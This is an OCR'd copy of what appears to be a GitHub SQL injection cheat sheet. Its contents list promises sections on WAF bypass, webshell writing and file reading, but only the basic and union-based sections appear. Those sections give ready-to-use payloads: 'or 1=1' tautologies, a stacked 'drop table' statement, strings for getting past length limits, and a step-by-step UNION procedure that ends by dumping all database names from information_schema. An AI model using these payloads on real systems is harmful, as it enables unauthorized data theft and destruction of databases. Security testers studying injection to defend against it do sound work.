 # SQL injection  
SQL is a famous database engine which is used with web server. In this situation, we can inject some SQL based code to get what we want <3.  
[Remember, practice makes perfect!](http://www.tutorialspoint.com/mysql_terminal_online.php)  
*  [Basic](#basic-injection)  
*  [Union based](#union-based)  
*  [Blind based](#blind-based)  
*  [Error based](#error-based)  
*  [Waf bypass](#waf-bypass)  
*  [Write Webshell](#webshell)  
*  [Read file](#read-file)  
*  [sql privilege issue](#sql-privilege-issue)  
*  [Bypass ASPX RequestValidation](#bypass-requestvalidation-on-aspx)  
*  [Wordpress4.8.2 double prepare](#wordpress-double-prepare-misuse)  
*  [NoSQL injection](#nosql-injection)  
*  [Logic Vul](#logic-vul)  
*  [Tools](#tools)  
*  [Defense](#defense)  
*  [Reference](#reference)

# Basic injection  
select password from users where name = '$id';  
So, what can we insert into $id?  
```sql  
5566 or 1=1 --  
5566; drop table hello  // execute drop table on second line  

rafael' or 1=1 --  // select password from users where name = 'rafael' or 1=1 --';  
rafael' or ''='    // select password from users where name = 'rafael' or ''='';

// bypass length limit
'||1#     // logic op dont need space char
'^0#
'|0#
```  

# Union based
1. Vulnerable to SQL injection?  
```sql
1' or 1"  
```  
2. union with **same number** of columns  
```sql
// N+=1, until page cannot show
1' order by N#
```  
3. make sure the place of our injection point  
```sql
//  1,2 number will show on the inj point 
1' and 1=2 union select 1,2...N#
```  
4. make sure for some basic information  
```sql
union select user(),database(),version(), @@version_compile_os--+
```  
5. start our exciting part  
```sql
...union select 1,2,...,group_concat(schema_name) from information_schema.schemata--+  // get all database name
```  
